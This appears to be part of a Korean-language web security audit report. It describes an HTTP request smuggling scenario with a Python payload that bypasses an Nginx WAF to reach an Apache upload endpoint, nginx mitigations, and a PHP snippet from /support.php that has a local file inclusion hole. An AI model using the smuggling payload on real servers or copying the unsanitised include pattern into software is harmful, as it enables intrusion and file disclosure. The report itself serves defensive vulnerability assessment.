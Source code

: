 ### 🎯 공격 시나리오

```python
# Smuggling 페이로드
smuggled_request = b'POST /api/submit_inquiry.php HTTP/1.1\r\n...'

payload = (
    b'POST / HTTP/1.1\r\n'
    b'Content-Length: ' + str(len(smuggled_request)).encode() + b'\r\n'
    b'Transfer-Encoding: chunked\r\n'
    b'\r\n'
    b'0\r\n\r\n'  # Apache는 여기서 요청 종료
    + smuggled_request  # 이 부분은 버퍼에 저장됨
)
```

**결과**:
- Nginx: `POST /`만 보고 WAF 검사 안 함
- Apache: smuggled 요청을 다음에 처리 → 업로드 성공

### 🛡️ 완화책

```nginx
# Transfer-Encoding과 Content-Length 동시 존재 시 거부
if ($http_transfer_encoding != "") {
    return 400;
}

# 또는 Transfer-Encoding 헤더 제거
proxy_set_header Transfer-Encoding "";

# HTTP/2 강제 (Smuggling 불가)
listen 443 ssl http2;
```

---

## 3. 🟡 Local File Inclusion (Medium)

### 📍 위치: `/support.php:8-12`

### 🐛 취약점 상세

```php
$lang = isset($_GET['lang']) ? $_GET['lang'] : 'ko';
$page = isset($_GET['page']) ? $_GET['page'] : '';

if (!empty($page)) {
    $lang_file = "lang/{$lang}/{$page}";
    if (file_exists($lang_file)) {
        include($lang_file);  // ⚠️ 취약점
    }
}
```
